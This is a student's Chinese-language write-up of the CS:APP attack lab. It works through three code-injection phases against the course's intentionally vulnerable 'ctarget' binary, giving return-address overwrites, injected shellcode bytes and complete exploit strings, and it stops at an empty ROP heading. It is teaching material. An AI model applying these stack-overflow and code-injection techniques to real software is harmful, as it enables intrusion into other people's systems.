 # attacklab 实验报告

## CI

### 第一关

实验文档的提示以及很详细了。先找到 getbuf，发现缓冲区的长度为 24 字节；

然后找到 touch1 的地址为 `0x0000000000401695`；

只需先用任意字符串填充缓冲区的 24 字节，然后将后面 return address 的 8 个字节覆盖为 touch1 的地址即可，注意小端法。

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
95 16 40 00 00 00 00 00
```



### 第二关

这里需要在进入 touch2 之前，提前修改 %rdi 的值，我们可以在栈上注入代码；

我们需要先找到调用 Gets 函数时的栈顶地址，因为这里的栈底地址是固定为 `0x00007fffffffffff`，因此无论运行多少次，走到 Gets 的时候栈顶地址都一定是固定的；

使用 `info regi` 指令，得知此时的栈顶地址为 `0x55654c98`，我们就在这 24 字节长的缓冲区中，注入我们的攻击代码；

攻击代码的汇编形式如下：

```assembly
pushq $0x4016c1 # touch2
movq $0x3d9549ca, %rdi
req
```

使用实验文档的方式得到带有字节代码的汇编代码：

```assembly

ctarget.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 c1 16 40 00       	pushq  $0x4016c1
   5:	48 c7 c7 ca 49 95 3d 	mov    $0x3d9549ca,%rdi
   c:	c3                   	retq   

```

注入的代码的字节码为：`68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3`。由于长度不足 24 字节，因此使用任意字符 `0x0a` 除外填充至 24 字节，跟上栈顶地址 `0x55654c98`。

```c
68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
```



### 第三关

这和第二关的区别是，这里需要把 %rdi 赋值为 "3d9549ca" 字符串的首地址，而这个 "3d9549ca" 也需要我们在栈区上注入；

根据实验文档的提示，`调用*hexmatch*和*strncmp*函数时，会将数据压入栈中，覆盖*getbuf*使用的缓冲区的内存，你需要很小心把你的cookie字符串表示放在哪里`。

如果我们把字符串存在 getbuf 的缓冲区中，则 hexmatch 函数中进行比较的时候，%rdi 寄存器存储的地址依然在 getbuf 缓冲区，但是这是我们的 cookie 字符串已经被 hexmatch 函数破坏了；

因此我们需要将 cookie 字符串注入到一个不会被影响的地方。

经过断点调试，发现 getbuf 栈帧开始的 24 个字节，会被 hexmatch 和 strncmp 函数破坏，因此我们只需将 cookie 字符串存到这个区域外，且不能和 getbuf 的 return address 区冲突即可。

那么不妨存到 `0x55654cb8`，我们将 cookie `3d9549ca` 转为对应 ASCII 码的十六进制表示：`33 64 39 35 34 39 63 61`。

注入的代码：

```assembly
pushq $0x4017ad # touch3
movq $0x55654cb8, %rdi
req
```

```assembly
   0:	68 ad 17 40 00       	pushq  $0x4017ad
   5:	48 c7 c7 b8 4c 65 55 	mov    $0x55654cb8,%rdi
   c:	c3                   	retq   
```

`68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3`

```c
68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
33 64 39 35 34 39 63 61
```



## ROP

### 第四关

